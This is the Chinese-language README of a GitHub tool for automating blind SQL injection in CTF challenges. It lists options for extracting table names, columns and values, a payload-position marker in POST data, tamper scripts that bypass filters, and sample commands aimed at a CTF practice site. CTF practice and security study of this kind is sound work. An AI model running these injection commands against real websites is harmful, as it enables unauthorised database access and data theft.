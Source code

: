 # fff-sqli
A tool for CTF's bind-sqli challenge

CTF的盲注总是要重新修改脚本，不胜其烦。于是写了这个工具，在Kali上测试通过。参数作以下几点说明

## 参数说明

-  -u参数是地址
- --tales 1 获取当前数据库所有表名
- --columns flag 获取flag表的所有列名
- -T user -C password 获取user表password列的值
- --headers 自定义请求头
- --data 以POST方式提交时候，所POST的数据,加星号* 表示payload的位置 如 username=admin'||*&password=admin
- -v 1 输出payload
- --sub 1 sub参数表示对截取字符串的函数进行选择，内置四种
- --tamper 调用tamper文件里bypass脚本，调用其tamper函数对payload进行处理，--tamper "space2comment" 则调用space2comment这个脚本，将空格转化为`/**/`
- --way 1 默认0，为1时采用二分法进行盲注
- --prefix --suffix对payload进行拼接
- --keywords 判断 true和false的关键词
- --proxy 自定义代理
- --cookie 自定义cookie

## 使用示例

注入站点：http://ctf5.shiyanbar.com/web/index_3.php

keywords: Hello

Usage: 
```
Usage : 
        python fffsqli.py [URL] [DATA] [KEYWORDS] ...
Example : 
        python fffsqi.py -u "http://127.0.0.1/?id=1" --keywords "key" --tables 1
Author : 
        Deen <1123537671@qq.com>
```

获取表名：

`python fffsqli.py -u "http://ctf5.shiyanbar.com/web/index_3.php" --prefx "'||" --suffix "||'"  --keywords "Hello" --tables 1 --way 1`

获取列名：

`python fffsqli.py -u "http://ctf5.shiyanbar.com/web/index_3.php" --prefx "'||" --suffix "||'"  --keywords "Hello" --columns flag --way 1`

获取数据：

`python fffsqli.py -u "http://ctf5.shiyanbar.com/web/index_3.php" --prefx "'||" --suffix "||'"  --keywords "Hello" -T flag -C flag --way 1`

## 截图展示


![](https://github.com/deenrookie/fff-sqli/blob/master/images/2017-11-23-185739_791x552_scrot.png)
![](https://github.com/deenrookie/fff-sqli/blob/master/images/2017-11-23-190223_792x546_scrot.png)

## TODO

- [ ] 添加bypass脚本
- [ ] 启用多线程进行注入
- [ ] 添加注入点fuzz功能
- [ ] 代码优化以及某些细节的异常处理


